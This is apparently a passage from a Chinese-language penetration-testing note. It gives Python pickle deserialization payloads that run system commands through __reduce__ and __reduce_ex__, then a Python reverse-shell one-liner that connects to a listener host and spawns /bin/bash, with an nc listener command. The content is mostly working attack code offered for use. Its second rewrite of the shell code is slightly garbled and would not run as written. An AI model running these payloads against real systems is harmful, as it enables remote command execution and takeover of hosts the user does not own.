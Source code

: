 其他可用的payload:

这里使用的是`__reduce_ex__`:

```python
#encoding: utf-8
import os
import pickle
class test(object):
    def __init__(self, cmd):
        self.cmd = cmd
    def __reduce_ex__(self,cmd):
        return (os.system,(self.cmd,))
a=test('whoami')
payload=pickle.dumps(a)
print(payload)
pickle.loads(payload)
```

```python
import pickle
import urllib
import commands

class payload(object):
    def __reduce__(self):
        return (commands.getoutput,('ls /',))

a = payload()
print urllib.quote(pickle.dumps(a))
```



***

# python反弹shell

如果当前目标主机能够执行我们的命令,但是没有回显, 可以利用`python`来反弹shell

让目标执行如下命令

```
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('监听主机的ip',监听主机的端口));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

这里的代码为:

```
import os,socket
subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(('监听主机的ip',监听主机的端口))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(['/bin/bash','-i'])
```

然后在我们能够控制的监听主机上使用:(内网环境下可以在kali上监听其他内网主机的)

```
nc -lvp 端口号 
```

开启监听, 就能够获得目标主机的`shell`了







